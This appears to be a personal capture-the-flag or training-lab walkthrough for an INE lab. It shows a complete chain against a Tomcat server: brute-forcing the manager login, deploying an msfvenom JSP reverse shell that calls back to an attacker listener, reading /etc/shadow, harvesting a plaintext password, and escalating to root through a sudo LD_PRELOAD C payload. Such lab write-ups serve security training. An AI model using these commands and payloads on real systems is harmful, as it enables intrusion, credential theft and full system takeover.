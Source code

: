 ```yaml
---
title: Part 2
updated: 2022-02-13 12:06:03Z
created: 2022-02-13 09:57:43Z
latitude: 45.12540000
longitude: 25.73340000
altitude: 0.0000
---
```


 - Visiit http://server3.ine.local:8080 in browser
 ![567171aad99134e7efe16cf8978c8d6c.png](../_resources/567171aad99134e7efe16cf8978c8d6c.png)
 - dirb http://server3.ine.local:8080
 ![3cb3ed8e9937ba775d8f762f96524673.png](../_resources/3cb3ed8e9937ba775d8f762f96524673.png)
 
 Manager? Tomcat Manager
 
 ![704953f5a8c93ea3a1f1ffc1273ebc72.png](../_resources/704953f5a8c93ea3a1f1ffc1273ebc72.png)
 Asks for creds
 
- use auxiliary/scanner/http/tomcat_mgr_login
- show options
- set RHOSTS server3.ine.local
- set VERBOSE false
- exploit

![bc87ce7eb4ef27a52e24e5b4206b42c7.png](../_resources/bc87ce7eb4ef27a52e24e5b4206b42c7.png)

Use the creds in browser:

![5852b288b2e8a6c80f877bf1caef6d7e.png](../_resources/5852b288b2e8a6c80f877bf1caef6d7e.png)

Over the Deploy zone, we can upload a reverse shell that Tomcat can execute

![5ce444626cb78a3307b0c0f347e977fa.png](../_resources/5ce444626cb78a3307b0c0f347e977fa.png)

- msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.254.181.2 LPORT=443 -f war > shell.war

![d56c307d7774fc937aff15a3b4514873.png](../_resources/d56c307d7774fc937aff15a3b4514873.png)

Open listening terminal on 443

then connect to:

http://server3.ine.local:8080/shell/

or just click on **shell** on Deploy

![ca63d4b9796bc4732920f7649e2c1c7d.png](../_resources/ca63d4b9796bc4732920f7649e2c1c7d.png)

- python -c 'import pty;pty.spawn("/bin/bash");'
- cat FLAG1	
- cat /etc/shadow

![b51b06c0532a166c4b09ea20eecfba30.png](../_resources/b51b06c0532a166c4b09ea20eecfba30.png)

*robert is able to escalate root!*

cd conf
tar -xvf conf.tar.gz
![faa8be83520901294bc284df7e0fdfd2.png](../_resources/faa8be83520901294bc284df7e0fdfd2.png)

cat conf/tomcat-users.xml

![444202c55e334102989303ca8c8bcd07.png](../_resources/444202c55e334102989303ca8c8bcd07.png)

Password for robert:

**robert@1234567890!@#**

ssh robert@server3.ine.local

cat FLAG2
![79b84136387d58a16e0e103228a0ef27.png](../_resources/79b84136387d58a16e0e103228a0ef27.png)

sudo -l

Making an exploit for the *ls* command:

**#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}**

Saved it as shell.c

vim shell.c (save with ESC and :w, use ESC with :q to exit)

- gcc -fPIC -shared -o shell.so shell.c -nostartfiles
- sudo LD_PRELOAD=/home/robert/shell.so ls
cat /root/FLAG3
